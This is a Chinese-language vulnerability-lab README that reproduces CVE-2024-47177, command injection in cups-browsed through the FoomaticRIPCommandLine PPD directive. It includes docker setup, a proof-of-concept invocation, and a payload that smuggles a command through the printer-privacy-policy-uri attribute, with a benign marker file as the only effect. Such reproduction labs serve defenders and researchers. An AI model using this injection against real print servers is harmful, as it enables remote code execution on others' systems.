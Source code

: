# OpenPrinting Cups-Browsed PDD FoomaticRIPCommandLine 参数导致远程命令执行漏洞（CVE-2024-47177）

OpenPrinting CUPS（通用Unix打印系统）是为类Unix操作系统开发的开源打印系统。它允许计算机充当打印服务器，高效管理本地和网络打印机。Cups-Browsed是CUPS系统的一部分，是一个专门用于浏览网络上其他CUPS服务器共享的远程打印机的守护进程。它可以自动发现和配置网络打印机，让用户更容易访问和使用网络上共享的打印资源，无需手动设置。

在Cups-Browsed 2.0.1及之前的版本中，存在一个由PPD（PostScript打印机描述）文件中的`FoomaticRIPCommandLine`参数处理不当引起的问题。攻击者可以通过创建一个恶意的IPP（互联网打印协议）服务器来利用这个漏洞，向易受攻击的Cups-Browsed实例发送精心制作的打印机信息，然后在运行易受攻击的Cups-Browsed的系统上执行任意命令。

参考链接：

- <https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/>
- <https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8>

## 漏洞环境

执行如下命令启动一个2.4.7版本CUPS服务器和2.0.1版本Cups-Browsed服务器：

```
docker-compose up -d
```

环境启动后，可以通过`http://<your-ip>:631`访问CUPS的web界面。

## 漏洞复现

首先，下载[evil-ipp-server](https://github.com/vulhub/evil-ipp-server)项目并运行[poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py):

```
python poc.py [evil-ipp-server-ip] [target-ip]
```

这个脚本会在`[evil-ipp-server-ip]`上启动一个恶意的IPP服务器，并向目标机器`[target-ip]`上的Cups-Browsed服务发送一个UDP数据包。

一旦Cups-Browsed接收到请求，它将尝试连接到恶意的IPP服务器并。IPP服务器会返回精心构造的`printer-privacy-policy-uri`属性，该属性中包含恶意payload，其结构如下：

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

然后，Cups-Browsed会在`/tmp/`目录下创建一个临时PPD文件，我们的payload会被注入到这个文件中。下图是相关的Cups-Browsed日志：

![](1.png)

此时，命令还未执行，因为我们需要至少一个打印任务来触发命令的执行。

打印任务可能来自于正常用户，也可以来自攻击者。如果TCP 631端口开放，我们可以使用浏览器访问，并找到刚才增加的恶意IPP打印机，并创建一个“打印测试页面”的打印任务。

![](2.png)

任务执行后，进入容器即可发现，`echo 1 > /tmp/I_AM_VULNERABLE`命令已经成功执行：

![](3.png)
